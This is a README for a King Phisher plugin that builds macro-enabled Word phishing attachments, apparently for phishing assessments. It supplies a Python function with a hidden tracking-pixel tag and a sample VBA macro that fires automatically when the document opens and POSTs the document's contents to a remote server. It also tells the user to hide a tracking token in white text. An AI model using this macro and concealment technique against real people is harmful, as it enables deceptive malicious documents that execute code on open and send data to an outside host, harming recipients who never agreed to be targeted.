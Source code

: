 # King-Phisher Plugin
This plugin extend the King Phisher Phishing Campaign Toolkit. With this plugin you can check how many people opened the Word attachment and chose the option to activate the macro or their macro execution was already active.

# Client Plugins

Name: Generate Word

Disclosed Date: February 13, 2021

# Prerequisites
note: The client and server must not be running.

you can run below command in install king-phisher directory for example, suppose you installed it at /opt/king-phisher then:

    cd /opt/king-phisher

    pipenv install docxtpl
    
# Local install
1- Locate the docx_generator folder in the following path:

    $HOME/.config/king-phisher/plugins
    
2- File mailer.py is located in the following path:

    /opt/king-phisher/king_phisher/client/mailer.py
    
Put the following code in the mailer.py file   

    def render_DOC_template_var(config, target=None, analyze=False):
      """	
            Take a config and return Template variables
      """
      if target is None:
        target = MessageTargetPlaceholder(uid=config['server_config'].get('server.secret_id'))
        template_environment.set_mode(template_environment.MODE_PREVIEW)
      print(target)
      if analyze:
        template_environment.set_mode(template_environment.MODE_ANALYZE)

      template_vars = {}
      template_vars['campaign'] = dict(
        id=str(config['campaign_id']),
        name=config['campaign_name']
      )
      template_vars['client'] = dict(
        first_name=target.first_name,
        last_name=target.last_name,
        email_address=target.email_address,
        department=target.department,
        company_name=config.get('mailer.company_name'),
        message_id=target.uid
      )

      template_vars['sender'] = dict(
        email=config.get('mailer.source_email'),
        friendly_alias=config.get('mailer.source_email_alias'),
        reply_to=config.get('mailer.reply_to_email')
      )
      template_vars['uid'] = target.uid

      message_type = config.get('mailer.message_type', 'email')
      template_vars['message_type'] = message_type
      if message_type == 'calendar_invite':
        template_vars['calendar_invite'] = dict(
          all_day=config.get('mailer.calendar_invite_all_day'),
          location=config.get('mailer.calendar_invite_location'),
          start=get_invite_start_from_config(config),
          summary=config.get('mailer.calendar_invite_summary')
        )

      template_vars['message'] = dict(
        attachment=config.get('mailer.attachment_file'),
        importance=config.get('mailer.importance'),
        recipient=dict(
          field=config.get('mailer.target_field', 'to'),
          to=(target.email_address if config.get('mailer.target_field') == 'to' else config.get('mailer.recipient_email_to', '')),
          cc=(target.email_address if config.get('mailer.target_field') == 'cc' else config.get('mailer.recipient_email_cc', '')),
          bcc=(target.email_address if config.get('mailer.target_field') == 'bcc' else '')
        ),
        sensitivity=config.get('mailer.sensitivity'),
        subject=config.get('mailer.subject'),
        template=config.get('mailer.html_file'),
        type=message_type
      )

      webserver_url = config.get('mailer.webserver_url', '')
      webserver_url = urllib.parse.urlparse(webserver_url)
      tracking_image = config['server_config']['server.tracking_image']
      template_vars['webserver'] = webserver_url.netloc
      tracking_url = urllib.parse.urlunparse((webserver_url.scheme, webserver_url.netloc, tracking_image, '', 'id=' + target.uid, ''))
      webserver_url = urllib.parse.urlunparse((webserver_url.scheme, webserver_url.netloc, webserver_url.path, '', '', ''))
      template_vars['tracking_dot_image_tag'] = "<img src=\"{0}\" style=\"display:none\" />".format(tracking_url)

      template_vars_url = {}
      template_vars_url['rickroll'] = 'http://www.youtube.com/watch?v=oHg5SJYRHA0'
      template_vars_url['webserver'] = webserver_url + '?id=' + target.uid
      template_vars_url['webserver_raw'] = webserver_url
      template_vars_url['tracking_dot'] = tracking_url
      template_vars['url'] = template_vars_url
      template_vars.update(template_environment.standard_variables)
      return template_vars
      
3- run server and client of king-phisher. In the client, enter the plugin manager dialog from tools -> manage plugins. From the local install section, check the install and enable docx_generator.

note: docx_generator and pdf_generator can not be activated at the same time

4- create a dotm template with macro on it. in the macro send uid (The unique tracking identifier ) to the landing page when open document file. sample code:

    Sub Auto_Open()
        expl
    End Sub

    Sub AutoOpen()
        expl
    End Sub

    Sub Document_Open()
        expl
    End Sub

    Public Function expl() As Variant

        Set mainStory = ActiveDocument.Content

        Dim MyRequest As Object
        Set MyRequest = CreateObject("WinHttp.WinHttpRequest.5.1")

        MyRequest.Open "POST", "https://[web_server_url]/[landing_page_name]?id=" + mainStory, False
        MyRequest.setRequestHeader "Content-type", "application/x-www-form-urlencoded"
        MyRequest.send (mainStory)

    End Function

5- Create the Word file with the template defined in the previous step. Create the Word file with the template defined in the previous step and just write the following command in it and whiten its color.

    {{ secret_id }}
  
note: All config variables are returned in the code and you can define each of them in your Word file according to your needs.
